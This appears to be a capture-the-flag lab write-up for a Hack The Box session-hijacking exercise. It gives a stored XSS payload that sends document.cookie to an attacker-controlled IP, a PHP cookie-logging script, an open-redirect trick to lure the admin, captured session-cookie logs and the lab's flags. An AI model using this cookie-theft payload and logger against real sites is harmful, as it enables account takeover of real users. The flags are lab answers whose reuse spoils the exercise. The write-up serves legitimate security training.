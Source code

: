 ```yaml
---
sticker: emoji//1f512
---
```

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![](../images/Pasted%20image%2020250219131413.png)
# First Question
---
Let's begin by checking the URL:

![](../images/Pasted%20image%2020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![](../images/Pasted%20image%2020250219135255.png)

Now, let's share:

![](../images/Pasted%20image%2020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![](../images/Pasted%20image%2020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![](../images/Pasted%20image%2020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![](../images/Pasted%20image%2020250219140807.png)

If we refresh the page:

![](../images/Pasted%20image%2020250219140815.png)

We are now admin user, let's make it public:

![](../images/Pasted%20image%2020250219140839.png)

If we go to share, we can see this:

![](../images/Pasted%20image%2020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![](../images/Pasted%20image%2020250219142017.png)

We can filter:

![](../images/Pasted%20image%2020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![](../images/Pasted%20image%2020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![](../images/Pasted%20image%2020250219142344.png)

